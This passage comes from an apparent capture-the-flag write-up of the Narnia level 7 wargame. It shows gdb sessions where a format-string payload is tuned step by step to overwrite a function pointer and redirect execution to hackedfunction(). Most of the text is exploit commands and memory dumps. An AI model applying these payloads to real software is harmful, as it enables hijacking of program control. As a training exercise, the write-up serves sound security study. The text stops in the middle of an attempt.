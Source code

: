 Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x00000031
0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x31306536	0x37333336	0x37383137
0xffffd640:	0x00000033	0x00000000	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
{{< / highlight >}}

Ok, so `0x8048706 - 0x00000031 = 0x80486d6` or *134514389* in decimal.
Let's see if I'm right

{{< highlight console >}}
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd899	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x080486fc
0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x20306536	0x20202020	0x20202020
0xffffd640:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd650:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd660:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd670:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd680:	0x20202020	0x20202020	0x20202020	0x00202020
{{< / highlight >}}

Still a little off. Adjusting the value again

{{< highlight console >}}
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

